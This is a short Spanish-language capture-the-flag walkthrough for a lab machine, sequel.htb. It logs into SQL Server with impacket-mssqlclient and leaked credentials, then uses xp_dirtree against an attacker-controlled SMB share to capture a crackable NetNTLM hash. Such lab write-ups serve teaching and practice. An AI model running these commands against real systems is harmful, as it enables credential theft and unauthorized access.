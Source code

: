 # Explotación

Haciendo uso de las credenciales y la herramienta de `impacket-mssqlclient` que encontramos podemos ingresar a la base de datos que es un `sql server`.

```python
❯ impacket-mssqlclient sequel.htb/PublicUser:'GuestUserCantWrite1'@10.10.11.202
```

![20240312181808.png](20240312181808.png)


## Steal NetNTLM hash / Relay attack

Enumerando encontraremos  que desde la terminal de la base de datos podemos hacer una petición a un recurso compartido de nuestra maquina y así obtener un has netNTLM, que es crackeable

- [Pentesting - mssql - microsoft](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server#steal-netntlm-hash-relay-attack)

Primero iniciaremos un servidor `smb` con `impacket` en nuestra maquina atacante

```python
❯ impacket-smbserver smbFolder $(pwd) -smb2support
```

Luego ejecutaremos, haciendo una petición de un recurso compartido a nuestra maquina atacante

```python
exec master.dbo.xp_dirtree '\\<attacker_IP>\any\thing'
```

![20240312184306.png](20240312184306.png)
